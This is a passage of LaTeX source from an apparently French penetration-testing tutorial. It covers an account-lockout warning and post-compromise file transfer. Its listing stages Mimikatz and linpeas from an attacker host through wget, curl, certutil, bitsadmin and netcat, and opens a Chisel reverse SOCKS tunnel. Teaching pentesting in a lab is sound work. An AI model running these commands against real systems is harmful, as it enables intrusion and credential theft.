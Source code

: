 \begin{boxalert}
\textbf{Risque de verrouillage de compte :} Une attaque par force brute
non maîtrisée peut verrouiller des comptes et déclencher des alertes
 immédiates. \textbf{Toujours vérifier la politique de
verrouillage} (identifiée lors de l'énumération  au
Chapitre~\ref{chap:scanning}) avant de lancer une attaque par dictionnaire.
LiZbiZ n'a pas de verrouillage configuré, mais en conditions réelles,
cette vérification est obligatoire.
\end{boxalert}

\section{Transfert de Fichiers}
\label{sec:file_transfer}

Une fois l'accès initial obtenu, le pentester doit souvent transférer des
outils vers la cible (scripts d'énumération, Mimikatz, Chisel). Cette
opération doit être aussi discrète que possible.

\begin{lstlisting}[language=bash, caption={Transfert de fichiers, techniques Linux et Windows}]
# ── DEPUIS LINUX (cible Linux) ──────────────────────────────────────

# Serveur HTTP Python sur la machine attaquante
python3 -m http.server 8080

# Téléchargement depuis la cible compromise
wget http://10.10.10.100:8080/linpeas.sh -O /tmp/linpeas.sh
curl http://10.10.10.100:8080/linpeas.sh -o /tmp/linpeas.sh

# Transfert via Netcat
# Côté attaquant (envoi)
nc -q 0 192.168.10.50 4444 < mimikatz.exe
# Côté cible (réception)
nc -lvnp 4444 > mimikatz.exe

# ── DEPUIS WINDOWS (cible Windows) ─────────────────────────────────

# PowerShell, méthode standard
powershell -c "(New-Object Net.WebClient).DownloadFile(\
    'http://10.10.10.100:8080/mimikatz.exe','C:\Temp\mimi.exe')"

# Certutil, Living Off The Land (binaire Windows légitime)
certutil -urlcache -split -f http://10.10.10.100:8080/mimikatz.exe \
         C:\Temp\mimi.exe

# BITS (Background Intelligent Transfer Service)
bitsadmin /transfer myJob http://10.10.10.100:8080/mimikatz.exe \
          C:\Temp\mimi.exe

# ── TUNNEL CHIFFRÉ AVEC CHISEL ───────────────────────────────────

# Chisel, tunneling SOCKS5 pour pivot réseau
# Côté attaquant (serveur)
chisel server --port 8888 --reverse

# Côté cible Linux (client)
./chisel client 10.10.10.100:8888 R:1080:socks

# Désormais : proxychains nmap -sT -Pn 10.0.0.5
# (sera utilisé pour le pivot au Chapitre suivant)
\end{lstlisting}

